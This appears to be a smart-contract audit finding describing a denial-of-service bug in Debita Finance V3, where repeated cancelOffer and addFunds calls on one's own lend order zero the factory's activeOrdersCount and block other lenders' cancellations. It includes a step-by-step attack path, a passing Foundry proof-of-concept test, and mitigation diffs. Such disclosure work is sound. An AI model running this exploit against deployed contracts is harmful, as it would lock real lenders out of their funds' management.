 Happy Rouge Coyote

Medium

# Malicious user can DOS Lend order owners from deleting their orders

### Summary

Debita has factory contract for lend offer, implementation of this contract contains a function for canceling the offer. A malicious user can halt the process of cancelation for everyone such that no lender can cancel his offer.

### Root Cause

In [`DebitaLendOffer-Implementation::144`](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOffer-Implementation.sol#L144) The function is to be called whenever the lender wants to cancel his order. This function also calls the `DebitaLendOfferFactory` contract's [`deleteOrder`](https://github.com/sherlock-audit/2024-11-debita-finance-v3/blob/main/Debita-V3-Contracts/contracts/DebitaLendOfferFactory.sol#L207) function that indexes the changes on mappings and decrements the `activeOrdersCount`.

Since the protocol is using solidity version `^0.8.0` thus it protects against Integer Underflow/Overflow. If the `activeOrdersCount` is `0` and there is attempt to `cancel` an order it will revert.

The problem is there that the implementation's `cancelOffer` can be called as many times as the malicious user wants, leading to decrementing the `activeOrdersCount` to `0` and every next attempt to cancel will revert resulting to DOS.

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

Assume there are 100 Lender orders already created and Alice comes:

1. Alice creates her own Lend order.
2. Alice calls `cancelOffer` of her Lend order.
3. Alice calls `addFunds` in order to increment the `availableAmount` and pass the requirement check of `cancelOffer`
4. Alice repeats `step 2` and `step 3` 101 times decrementing the `activeOrdersCount` to `0`

Now no one can cancel his lend order, unless there is new created one and the `activeOrdersCount` is greater than `0`

### Impact

Lenders will lose the ability to cancel their lend orders.

### PoC

```solidity
    function testDeleteLendOrder() public {
        vm.startPrank(lender);
        IERC20(AERO).approve(lendersOrder, type(uint256).max);

        // There are 10 lend orders, 1 from lender and 9 from other lenders
        // When the lender repeats this 10 times the activeLendOrders will be 0
        for(uint256 i; i < 10; i++) {
            DLOImplementation(lendersOrder).cancelOffer();
            DLOImplementation(lendersOrder).addFunds(1);
        }

        // Expect revert because of integer underflow
        vm.expectRevert();
        DLOImplementation(lendersOrder).cancelOffer();
        vm.stopPrank();

    }
```

```plain
Ran 1 test for test/local/LendOfferFactory/LendOfferFactory.t.sol:LendOfferFactoryTest
[PASS] testDeleteLendOrder() (gas: 679370)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 13.45ms (2.39ms CPU time)
```

### Mitigation

Make sure that `isActive` is set to `true` whenever calling the `addFunds` function.

```diff
    function addFunds(uint amount) public nonReentrant {
+       require(isActive, "...");
        require(
            msg.sender == lendInformation.owner ||
                IAggregator(aggregatorContract).isSenderALoan(msg.sender),
            "Only owner or loan"
        );
        SafeERC20.safeTransferFrom(
            IERC20(lendInformation.principle),
            msg.sender,
            address(this),
            amount
        );
        lendInformation.availableAmount += amount;
        IDLOFactory(factoryContract).emitUpdate(address(this));
    }
```

In the `DebitaLendOfferFactory` contract set `isLendOrderLegit[msg.sender]` to `false` when the order is deleted

```diff
    function deleteOrder(address _lendOrder) external onlyLendOrder {
        uint index = LendOrderIndex[_lendOrder];
        LendOrderIndex[_lendOrder] = 0;

        // switch index of the last borrow order to the deleted borrow order
        allActiveLendOrders[index] = allActiveLendOrders[activeOrdersCount - 1];
        LendOrderIndex[allActiveLendOrders[activeOrdersCount - 1]] = index;

        // take out last borrow order

        allActiveLendOrders[activeOrdersCount - 1] = address(0);
+       isLendOrderLegit[msg.sender] = false;

        activeOrdersCount--;
    }
```